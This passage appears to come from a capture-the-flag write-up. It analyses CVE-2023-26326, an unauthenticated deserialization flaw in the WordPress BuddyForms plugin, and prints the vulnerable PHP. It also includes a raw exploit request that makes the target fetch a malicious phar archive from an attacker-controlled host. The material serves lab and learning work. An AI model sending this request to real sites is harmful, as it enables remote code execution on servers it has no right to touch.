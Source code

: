 The **BuddyForms** plugin was loading first when intercepting requests with Burp Suite. A critical vulnerability, **CVE-2023-26326**, exists in this plugin that allows **unauthenticated insecure deserialization**, potentially leading to **Remote Code Execution (RCE)**.

Reference: [Tenable Blog](https://medium.com/tenable-techblog/wordpress-buddyforms-plugin-unauthenticated-insecure-deserialization-cve-2023-26326-3becb5575ed8)

### Vulnerable Code Analysis

```php
function buddyforms_upload_image_from_url() {
  $url            = isset( $_REQUEST['url'] ) ? wp_kses_post( wp_unslash( $_REQUEST['url'] ) ) : '';
  $file_id        = isset( $_REQUEST['id'] ) ? sanitize_text_field( wp_unslash( $_REQUEST['id'] ) ) : '';
  $accepted_files = isset( $_REQUEST['accepted_files'] ) ? explode( ',', buddyforms_sanitize( '', wp_unslash( $_REQUEST['accepted_files'] ) ) ) : array( 'jpeg' );

  if ( ! empty( $url ) && ! empty( $file_id ) ) {
    $upload_dir             = wp_upload_dir();
    $image_url              = urldecode( $url );
    $image_data             = file_get_contents( $image_url ); // Get image data
    $image_data_information = getimagesize( $image_url );
    $image_mime_information = $image_data_information['mime'];

    if ( ! in_array( $image_mime_information, $accepted_files ) ) {
      echo wp_json_encode(
        array(
          'status'   => 'FAILED',
          'response' => __('File type ' . $image_mime_information . ' is not allowed.', 'buddyforms')
        )
      );
      die();
    }
  }
}
```

### Exploitation Attempt

From the analysis, the function allows arbitrary URLs, meaning an attacker can provide a crafted **phar://** URL pointing to a malicious archive.

Tried the following exploit:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: blog.bigbang.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json
Content-Type: application/x-www-form-urlencoded
Content-Length: 97
Connection: keep-alive
Referer: http://blog.bigbang.htb/

action=upload_image_from_url&url=http://x.x.x.x/evil.phar&id=420&accepted_files=image/gif
```
